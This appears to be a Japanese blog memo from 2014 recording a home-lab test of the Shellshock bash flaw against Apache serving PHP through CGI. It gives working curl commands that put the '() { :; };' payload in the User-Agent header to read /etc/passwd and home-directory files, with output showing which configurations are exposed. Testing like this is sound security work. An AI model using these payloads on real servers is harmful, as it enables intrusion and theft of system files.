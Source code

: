 ```yaml
---
Keywords:CLI,こっそり置いておく
Copyright: (C) 2017 Ryuichi Ueda
---
```


# 実験メモ
何の実験かは・・・あれですね・・・。<br />
<br />
こういうファイルを準備。<br />
[bash]<br />
[root\@localhost httpd]# cat /var/www/html/index.php <br />
#!/usr/bin/env php<br />
<br />
&lt;?php<br />
	system('date');<br />
?&gt;<br />
[/bash]<br />
<br />
<!--more--><br />
<br />
httpd.confのOptionsのところにExecCGIを追加し、<br />
下にAddHandlerを書く。<br />
<br />
[bash]<br />
 Options Indexes FollowSymLinks ExecCGI<br />
 AddHandler cgi-script php<br />
[/bash]<br />
<br />
ホームの下にファイルを準備<br />
[bash]<br />
[ueda\@localhost ~]$ ls -l mysecret <br />
-rw-rw-r--. 1 ueda ueda 13 10月 3 20:07 2014 mysecret<br />
[ueda\@localhost ~]$ cat mysecret <br />
私の秘密<br />
[/bash]<br />
<br />
外側からcurlでつっつく。ポートフォワードでhttp://localhost:8888からつっつく。<br />
[bash]<br />
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /home/ueda/*' http://localhost:8888/index.php<br />
[/bash]<br />
<br />
ログを確認。パーミッションで守られている。<br />
[bash]<br />
[root\@localhost httpd]# tail error_log <br />
...<br />
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] /bin/cat: <br />
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] /home/ueda/*<br />
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] : Permission denied<br />
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] <br />
[/bash]<br />
<br />
もう一度突っつく。別のものを。<br />
[bash]<br />
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php<br />
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin<br />
ueda:x:500:500::/home/ueda:/bin/bash<br />
apache:x:48:48:Apache:/var/www:/sbin/nologin<br />
[/bash]<br />
守られていない・・・。<br />
<br />
<br />
今度はhttpd.confから追記部分をもう一度削り、index.phpを次のように書き換える。<br />
[bash]<br />
[root\@localhost httpd]# cat /var/www/html/index.php <br />
&lt;?php<br />
	system('date');<br />
?&gt;<br />
[/bash]<br />
<br />
もう一度突っつく。<br />
[bash]<br />
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php<br />
Fri Oct 3 20:27:38 JST 2014<br />
[/bash]<br />
大丈夫。<br />
<br />
もう一度CGIモードで。こんなコード。<br />
[bash]<br />
[root\@localhost httpd]# cat /var/www/html/index.php <br />
#!/usr/bin/php<br />
<br />
&lt;?php<br />
	print(&quot;hoge\\n&quot;);<br />
?&gt;<br />
[/bash]<br />
<br />
[bash]<br />
uedambp:IPSJ_SHELLSHOCK ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php 2&gt; /dev/null<br />
hoge<br />
[/bash]<br />
<br />
大丈夫。<br />
<br />
これは・・・<br />
[bash]<br />
[root\@localhost httpd]# cat /var/www/html/index.php <br />
#!/usr/bin/php<br />
<br />
&lt;?php<br />
	system(&quot;date&quot;);<br />
?&gt;<br />
[/bash]<br />
<br />
ダメ。<br />
[bash]<br />
uedambp:IPSJ_SHELLSHOCK ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php 2&gt; /dev/null<br />
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin<br />
ueda:x:500:500::/home/ueda:/bin/bash<br />
apache:x:48:48:Apache:/var/www:/sbin/nologin<br />
[/bash]
